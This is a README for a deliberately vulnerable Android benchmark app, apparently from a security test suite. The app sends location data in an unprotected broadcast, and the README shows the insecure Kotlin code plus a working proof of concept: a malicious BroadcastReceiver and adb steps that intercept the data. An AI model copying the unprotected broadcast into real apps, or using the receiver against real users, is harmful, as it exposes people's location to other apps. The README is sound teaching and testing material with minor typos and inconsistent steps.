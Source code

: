 # oxo-android-ben46 Broadcast of Sensitive Information

### Description

his project demonstrates a critical security vulnerability in an Android application where location data is broadcast without proper protection.

The app simulates a simple position sharing flow. When the user clicks the "Share Position" button:

A fake location (latitude/longitude) is generated (randomized to mimic realistic coordinates).

This location is then broadcast using context.sendBroadcast() with the action com.example.location.

Since the broadcast is unprotected, any other app on the device can intercept the shared position.

After sharing the position, the button changes to "Go to Dashboard", which redirects the user to a webpage. This masks the vulnerability, as the user only sees expected app behavior.

The vulnerability is located in the MainActivity.kt file.

**Relevant Code (MainActivity.kt):**
```kotlin
val latitude = Random.nextDouble(-90.0, 90.0)
val longitude = Random.nextDouble(-180.0, 180.0)

// Broadcast location (insecure behavior)
val locationIntent = Intent("com.example.location").apply {
    putExtra("LAT", latitude)
    putExtra("LON", longitude)
}
context.sendBroadcast(locationIntent)
```

### Vulnerability Type and Category
-   **Type:** Unprotected broadcast of sensitive information
-   **Category:** Unprotected broadcast of sensitive information

### Difficulty
Easy

## Build and Test Instructions

### Build

This project uses Android Studio with Kotlin. To build the debug APK from the terminal:
```bash
# Navigate into the source code directory first
cd src/
./gradlew build
```
The APK will be located at app/build/outputs/apk/release/app-release-unsigned.apk.

### How to Exploit

1. **Install the Vulnerable App**: Install the `oxo-android-ben46.apk` onto an Android device or emulator.

```
adb install oxo-android-ben46.apk 
```

2. **Set Up the Malicious App**: Create a second, malicious app with a `BroadcastReceiver` that includes an intent filter for the vulnerable broadcast action (`com.example.location`).

In `AndroidManifest.xml`:
```
<receiver android:name=".LocationReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.example.location" />
    </intent-filter>
</receiver>
```

In the `LocationReceiver.kt`:

```
override fun onReceive(context: Context?, intent: Intent?) {
    if (intent?.action == "com.example.location") {
        val lat = intent.getDoubleExtra("LAT", 0.0)
        val lon = intent.getDoubleExtra("LON", 0.0)
        Log.d("VulnerableBroadcast", "Intercepted location: ($lat, $lon)")
    }
}
```

3 **Install the Malicious App**: Install the malicious app on the same device.

```
abd install malicious-app.apk
```

4. **Trigger the Vulnerability**: Open the vulnerable app and click the "Open example.com" button.

5. **View the Exploit**: Use `adb logcat` to filter the logs for the malicious app's tag. You will see the intercepted location in the logs, confirming that the malicious app successfully captured the sensitive information from the broadcast.

```
adb logcat -s VulnerableBroadcast
```